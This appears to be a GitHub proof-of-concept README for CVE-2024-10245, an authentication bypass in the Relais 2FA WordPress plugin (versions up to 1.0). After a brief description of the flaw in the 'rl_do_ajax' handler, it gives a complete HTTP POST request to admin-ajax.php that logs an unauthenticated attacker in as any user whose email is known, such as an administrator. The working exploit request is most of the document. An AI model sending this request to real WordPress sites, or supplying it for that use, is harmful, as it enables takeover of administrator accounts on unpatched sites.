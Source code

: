 # CVE-2024-10245
Relais 2FA &lt;= 1.0 - Authentication Bypass


# Description

The Relais 2FA plugin for WordPress is vulnerable to authentication bypass in versions up to, and including, 1.0. This is due to incorrect authentication and capability checking in the 'rl_do_ajax' function. This makes it possible for unauthenticated attackers to log in as any existing user on the site, such as an administrator, if they have access to the email.

POC
---

```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: kubernetes.docker.internal
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://kubernetes.docker.internal/wp-admin/admin.php?page=wp-time-capsule-settings
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 78
Origin: http://kubernetes.docker.internal
Connection: keep-alive

action=rl_do_ajax&rl_action=authenticate&nonce=213123123&email=admin@admin.com
```
